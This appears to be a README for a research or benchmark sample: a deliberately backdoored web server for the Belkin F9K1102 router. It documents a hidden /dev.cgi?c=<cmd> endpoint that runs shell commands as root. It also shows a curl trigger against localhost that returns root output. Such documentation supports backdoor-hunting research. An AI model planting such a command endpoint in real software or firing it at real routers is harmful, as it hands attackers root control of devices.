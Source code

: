 # Belkin F9K1102 backdoor
- **Type**: hidden command
- **Affected versions**: 3.04.06 - 3.04.13


## Backdoor
The `/dev.htm` web page creates a web-shell that makes requests to the `/dev.cgi` endpoint, of the
form `/dev.cgi?c=<cmd>` where `cmd` is an url-encoded shell command that will be executed as root.


## Triggering the backdoor
We first need to copy the `www/` directory to `/tmp/www/`:
```console
$ cp -r www/ /tmp/
```
We can then start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/src/build/httpd
```
In a separate terminal, we can try running a shell command via the backdoor (e.g., `id`):
```console
$ curl -v "http://localhost:8080/dev.cgi?c=id"
...
uid=0(root) gid=0(root) groups=0(root)
...
```
So we can see that the backdoor allows us to run arbitrary shell commands as root.


## Reference
<https://conference.hitb.org/hitbsecconf2018dxb/materials/D1T1%20-%20Hunting%20for%20Backdoors%20in%20IoT%20Firmware%20at%20Unprecedented%20Scale%20-%20John%20Toterhi.pdf>
